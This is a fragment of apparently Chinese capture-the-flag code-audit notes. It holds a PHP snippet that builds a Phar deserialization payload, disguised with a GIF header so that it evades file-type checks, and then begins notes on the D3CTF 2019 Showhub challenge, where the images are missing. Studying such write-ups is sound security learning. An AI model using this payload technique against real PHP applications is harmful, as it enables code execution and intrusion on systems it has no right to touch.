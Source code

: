 ```php

$phar = new Phar("easyweb.phar");
$phar->startBuffering();
$phar->setStub("GIF89A"."__HALT_COMPILER();"); //设置stub，增加gif文件头用以欺骗检测
$phar->setMetadata($redis); //将自定义meta-data存入manifest
$phar->addFromString("test.jpg", "test"); //添加要压缩的文件
$phar->stopBuffering();

 ?>
```

### ****[D3CTF 2019]Showhub****

用户密码加密方式

![Untitled](%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%206658870bb1d4438684d807c1b2ec69fb/Untitled%2049.png)

注册功能调用save方法

![Untitled](%E4%BB%A3%E7%A0%81%E5%AE%A1%E8%AE%A1%206658870bb1d4438684d807c1b2ec69fb/Untitled%2050.png)

